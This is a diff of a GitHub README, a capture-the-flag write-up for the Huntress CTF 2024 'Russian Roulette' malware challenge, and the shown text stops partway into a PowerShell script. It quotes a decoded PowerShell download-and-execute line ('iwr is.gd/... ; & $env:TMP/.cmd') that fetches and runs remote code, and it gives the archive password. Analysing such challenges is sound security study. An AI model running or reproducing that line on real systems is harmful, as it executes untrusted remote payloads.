

Before and after one commit to bwright94/Huntress-CTF-2024, a Markdown page: [Malware]/Russian Roulette/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/[Malware]/Russian Roulette/README.md
+++ b/[Malware]/Russian Roulette/README.md
@@ -1,33 +1,39 @@
 ![russian-roulette-ss1.png](russian-roulette-ss1.png)
 
-# Russian Roulette -- Malware
+# Russian Roulette: Malware
 
 Author: @JohnHammond
 
 My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
 
+```
 WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
+```
 
-NOTE: Archive password is russian_roulette
+```NOTE: Archive password is russian_roulette```
 
 Download the file(s) below.
 ```russian_roulette.zip```
-```
+
+```bash
 ##	Extract russian_roulette.zip on Windows 10 VM --> file is a powershell shortcut with parameters containing malware payload
 
 ##	Read Shortcut > Properties > Target, convert Base64, remove null
-	iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
+	> "iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd"
+
 ##	This is an Invoke-WebRequest to download and run payload
-##	Reverse engineering not helpful in this challenge due to obfuscation
+
+##	is.gd/jwr7JD > a file that is difficult to deobfuscate, so I tried another method:
 ```
 
 ## SOLUTION:
+
 Open Event Viewer, run the provided challenge Shortcut, view PowerShell logs
 Retry if crash
 
-Command line details included in log, or find very long Base64 and convert
-This is PowerShell script code that creates the flag and spawns new powershell, but will sometimes crash (1/6 chance) hence russian_roulette
-```
+From command line details included in log, or find very long Base64 and convert
+You get a PowerShell script that creates the flag and spawns new powershell, but will sometimes crash (1/6 chance) hence russian_roulette
+```powershell
 $s='using System;
 using System.Text;
 using System.Security.Cryptography;
````
